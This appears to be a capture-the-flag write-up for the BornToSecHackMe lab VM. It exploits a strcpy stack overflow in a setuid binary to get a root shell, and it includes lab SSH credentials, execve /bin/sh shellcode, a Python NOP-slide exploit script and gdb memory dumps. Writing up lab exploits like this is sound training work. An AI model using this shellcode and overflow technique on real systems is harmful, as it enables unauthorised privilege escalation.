 # BONUS2 :

Starting from the `zaz` user, another way to get access to the `root` user with the file `exploit_me` is to use a `shellcode`.

ssh user: `zaz`
ssh password: `646da671ca01bb5d84dbb5fb2238dc8e`

23 bytes shellcode from [here](https://www.hackthesec.co.in/2016/01/linuxx86-execve-binsh-shellcode-24-byte.html):  `\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80`

We need to add some `NOP slide` before our shellcode to be sure that even if our address is a bit moving we will still be able to get to our shellcode.

> EIP => 0xbffff75c
> Buffer beginning =>0xbffff6d0
> EIP - Buffer beginning = 140

Let's build our input with a python script `exploit.py`:

```python
import struct
overflow_offset = 140
beggining_of_nop_slide = 0xbffff640

shellcode = "\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80"
shellcode_len = len(shellcode)
NOP = "\x90" * (overflow_offset - shellcode_len - 30)
NOP2 = "\x90" * 30
EIP = struct.pack("I", (beggining_of_nop_slide + len(NOP) / 2))
print NOP + shellcode + NOP2 + EIP
```

```bash
zaz@BornToSecHackMe:~$ gdb -q ./exploit_me
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:     push   %ebp
   0x080483f5 <+1>:     mov    %esp,%ebp
   0x080483f7 <+3>:     and    $0xfffffff0,%esp
   0x080483fa <+6>:     sub    $0x90,%esp
   0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:    jg     0x804840d <main+25>
   0x08048406 <+18>:    mov    $0x1,%eax
   0x0804840b <+23>:    jmp    0x8048436 <main+66>
   0x0804840d <+25>:    mov    0xc(%ebp),%eax
   0x08048410 <+28>:    add    $0x4,%eax
   0x08048413 <+31>:    mov    (%eax),%eax
   0x08048415 <+33>:    mov    %eax,0x4(%esp)
   0x08048419 <+37>:    lea    0x10(%esp),%eax
   0x0804841d <+41>:    mov    %eax,(%esp)
   0x08048420 <+44>:    call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:    lea    0x10(%esp),%eax
   0x08048429 <+53>:    mov    %eax,(%esp)
   0x0804842c <+56>:    call   0x8048310 <puts@plt>
   0x08048431 <+61>:    mov    $0x0,%eax
   0x08048436 <+66>:    leave
   0x08048437 <+67>:    ret
End of assembler dump.
(gdb) b *0x08048425
Breakpoint 1 at 0x8048425
(gdb) r `python exploit.py`
Starting program: /home/zaz/exploit_me `python exploit.py`

Breakpoint 1, 0x08048425 in main ()
(gdb) x/30x
Argument required (starting display address).
(gdb) x/30x $esp
0xbffff630:     0xbffff640      0xbffff899      0x00000001      0xb7ec3c49
0xbffff640:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff650:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff660:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff670:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff680:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff690:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffff6a0:     0x50c03190      0x732f2f68
```

> start_of_nop_slide => 0xbffff640

Now we can edit our script by putting the `EIP` in the middle of the `NOP_SLIDE`  and simply use our script to get access to the root shell:

`python exploit.py | ./exploit_me`